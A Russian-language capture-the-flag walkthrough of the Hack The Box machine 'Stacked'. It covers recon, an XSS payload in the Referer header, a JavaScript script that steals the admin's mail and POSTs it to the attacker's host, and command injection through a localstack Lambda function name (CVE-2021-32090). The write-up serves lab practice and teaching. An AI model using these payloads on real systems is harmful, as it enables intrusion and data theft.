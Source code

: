 # ⚪ Stacked(Linux, Insane)

![](../.gitbook/assets/1.png)

### Содержание:

В самом начале мы просканируем порты, профаззим поддомены и найдем один, на котором будет XSS в HTTP заголовке Referer. C помощью данной XSS мы найдем еще один поддомен и прочитаем почтовые сообщения. В этих сообщениях будет поддомен с AWS Lambda. Затем эксплуатируем вулну через создание lambda-функции и получим реверс шелл. На хосте запустим PSPY и увидим выполнение lambda-функций, которые выполняются от рута.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV 10.10.11.112 -oN nmap
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 12:8f:2b:60:bc:21:bd:db:cb:13:02:03:ef:59:36:a5 (RSA)
|   256 af:f3:1a:6a:e7:13:a9:c0:25:32:d0:2c:be:59:33:e4 (ECDSA)
|_  256 39:50:d5:79:cd:0e:f0:24:d3:2c:f4:23:ce:d2:a6:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://stacked.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: stacked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](<../.gitbook/assets/2 (1).png>)

С формой я сделать так ничего и не смог, поэтому пошел дальше.

Так как в тегах \<title>STACKED.HTB\</title>, то скорее всего, это реальное имя домена, следовательно вносим его в /etc/hosts и можно фаззить поддомены.

```
$ gobuster vhost -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u stacked.htb -t 20 | grep -v "(Status: 302)"
```

```
Found: portfolio.stacked.htb (Status: 200) [Size: 30268]
```

![](../.gitbook/assets/3.png)

На главной странице поддомена расположены логотипы различных технологий и ОС: docker, aws labmda,  localstack, fullstack, ubuntu, debian, centos. Это дает отсылку на то, с чем мы будем иметь дело чуть позже.

На странице есть docker-compose.yml:

```yaml
version: "3.3"
services:
  localstack:
    container_name: "${LOCALSTACK_DOCKER_NAME-localstack_main}"
    image: localstack/localstack-full:0.12.6
    network_mode: bridge
    ports:
      - "127.0.0.1:443:443"
      - "127.0.0.1:4566:4566"
      - "127.0.0.1:4571:4571"
      - "127.0.0.1:${PORT_WEB_UI-8080}:${PORT_WEB_UI-8080}"
    environment:
      - SERVICES=serverless
      - DEBUG=1
      - DATA_DIR=/var/localstack/data
      - PORT_WEB_UI=${PORT_WEB_UI- }
      - LAMBDA_EXECUTOR=${LAMBDA_EXECUTOR- }
      - LOCALSTACK_API_KEY=${LOCALSTACK_API_KEY- }
      - KINESIS_ERROR_PROBABILITY=${KINESIS_ERROR_PROBABILITY- }
      - DOCKER_HOST=unix:///var/run/docker.sock
      - HOST_TMP_FOLDER="/tmp/localstack"
    volumes:
      - "/tmp/localstack:/tmp/localstack"
      - "/var/run/docker.sock:/var/run/docker.sock"version: "3.3"

services:
  localstack:
    container_name: "${LOCALSTACK_DOCKER_NAME-localstack_main}"
    image: localstack/localstack-full:0.12.6
    network_mode: bridge
    ports:
      - "127.0.0.1:443:443"
      - "127.0.0.1:4566:4566"
      - "127.0.0.1:4571:4571"
      - "127.0.0.1:${PORT_WEB_UI-8080}:${PORT_WEB_UI-8080}"
    environment:
      - SERVICES=serverless
      - DEBUG=1
      - DATA_DIR=/var/localstack/data
      - PORT_WEB_UI=${PORT_WEB_UI- }
      - LAMBDA_EXECUTOR=${LAMBDA_EXECUTOR- }
      - LOCALSTACK_API_KEY=${LOCALSTACK_API_KEY- }
      - KINESIS_ERROR_PROBABILITY=${KINESIS_ERROR_PROBABILITY- }
      - DOCKER_HOST=unix:///var/run/docker.sock
      - HOST_TMP_FOLDER="/tmp/localstack"
    volumes:
      - "/tmp/localstack:/tmp/localstack"
      - "/var/run/docker.sock:/var/run/docker.sock"
```

Отсюда мы можем узнать, что используется версия localstack - 0.12.6, в котором есть уязвимость CVE-2021-32090([https://blog.sonarsource.com/hack-the-stack-with-localstack](https://blog.sonarsource.com/hack-the-stack-with-localstack)), через которую можно выполнить OS Command Injection, а также он расположен на 8080 веб-порте.

Также на поддомене распологается форма:

![](../.gitbook/assets/4.png)

'

![](<../.gitbook/assets/5 (5).png>)

![](../.gitbook/assets/6.png)

```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: <script src="http://10.10.16.93/index.js"></script>
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 93
Origin: http://portfolio.stacked.htb
DNT: 1
Connection: close
Referer: <script src="http://10.10.16.93/index.js"></script>

fullname=tragernout&email=tragernout%40stacked.htb&tel=000000000000&subject=test&message=tests
```

![](<../.gitbook/assets/7 (1).png>)

Чтобы увидеть HTTP заголовки реквеста админа, который "пытается" получить index.js можно использовать netcat:

![](<../.gitbook/assets/8 (1).png>)

Мы можем добавить поддомен mail.stacked.htb в наш /etc/hosts, но на него мы все равно не сможем попасть, потому что там скорее всего стоит защита и можно попасть на него только с localhost.

Но мы можем посмотреть, что на этом поддомене через XSS. Так как на сайте используется XMLHttpRequest (из HTTP-заголовка), следовательно можно написать свой javascript-файл, который сделает GET-запрос на mail.stacked.htb от лица админа, а затем сделать POST-запрос с GET-ответом на наш хост:

```javascript
var url = "http://mail.stacked.htb/read-mail.php?id=2"

var firstReq = new XMLHttpRequest();
firstReq.open('GET', url, false);
firstReq.send()

var response = firstReq.responseText;

var secondReq = new XMLHttpRequest();
secondReq.open('POST', "http://10.10.16.93:8000/", false);
secondReq.send(response);
```

![](../.gitbook/assets/9.png)

В данном ответе я ничего интересного не нашел, поэтому немного изменил скрипт на самое первое сообщение и запустил по-новой:

```javascript
var url = "http://mail.stacked.htb/read-mail.php?id=1"

var firstReq = new XMLHttpRequest();
firstReq.open('GET', url, false);
firstReq.send()

var response = firstReq.responseText;

var secondReq = new XMLHttpRequest();
secondReq.open('POST', "http://10.10.16.93:8000/", false);
secondReq.send(response);
```

И в новом сообщении есть вот такой текст:

`<p>Hey Adam, I have set up S3 instance on s3-testing.stacked.htb so that you can configure the IAM users, roles and permissions. I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances. If you need anything let me know. Thanks.</p>`

Добавляем поддомен s3-testing.stacked.htb в /etc/hosts.

![](../.gitbook/assets/10.png)

Тут ничего нет, кроме строки {"status": "running"}. Как уже ранее было замечено, на сервере скорее всего используется AWS Labmda и localstack, поэтому можно попробовать создать lambda-функцию. Для этого конфигурируем aws консоль:

![](../.gitbook/assets/11.png)

Теперь с помощью [данной](https://docs.aws.amazon.com/cli/latest/reference/lambda/create-function.html) инструкции составляем команду для отправки функции на сервер. Также нам понадобится javascript файл с простейшей функцией:

```
exports.handler =  async function(event, context) {
  return "Hello"
}
```

Теперь запаковываем файл в архив и отправляем:

```
$ zip index.zip index.js
$ aws lambda --endpoint=http://s3-testing.stacked.htb create-function --function-name 'func' --role user --handler index.handler --runtime nodejs10.x --zip-file fileb://index.zip
$ aws lambda --endpoint=http://s3-testing.stacked.htb invoke --function-name func out
$ cat out
```

![](../.gitbook/assets/12.png)

Вернулось сообщение - Hello, значит функция успешно объявлена и сохранена. Теперь мы можем попробовать эксплуатировать CVE-2021-32090:

```
$ aws lambda --endpoint=http://s3-testing.stacked.htb create-function --function-name 'func;ping -c3 10.10.16.93' --role user --handler index.handler --runtime nodejs10.x --zip-file fileb://index.zip
```

Также, чтобы это работало, нам нужно перенаправить админа на панель localstack на 8080 порте:

![](../.gitbook/assets/13.png)

![](../.gitbook/assets/14.png)
